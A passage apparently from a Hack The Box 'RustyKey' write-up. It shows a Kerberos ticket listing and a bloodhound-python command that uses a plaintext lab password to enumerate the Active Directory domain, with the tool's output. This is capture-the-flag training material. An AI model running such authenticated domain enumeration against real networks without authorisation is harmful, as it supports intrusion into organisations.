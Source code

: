```bash
└─$ klist
Ticket cache: FILE:rr.parker.ccache
Default principal: rr.parker@RUSTYKEY.HTB

Valid starting       Expires              Service principal
06/30/2025 13:48:49  06/30/2025 23:48:49  krbtgt/RUSTYKEY.HTB@RUSTYKEY.HTB
        renew until 07/01/2025 13:47:59
```

Now we can use BloodHound to enumerate the machine with kerberos authentication.

### BloodHound
```bash
└─$ bloodhound-python -u 'rr.parker' -p '8#t5HE8L!W3A' -d rustykey.htb -c All -o bloodhound_results.json -ns 10.129.4.62
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: rustykey.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.rustykey.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 16 computers
INFO: Connecting to LDAP server: dc.rustykey.htb
INFO: Found 12 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 10 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: dc.rustykey.htb
INFO: Done in 00M 35S
```

Turn on the BloodHound web server and inject the `bloodhound_results.json_*` file.

![BloodHound](/assets/img/rustykey-htb-season8/bloodhound.png)

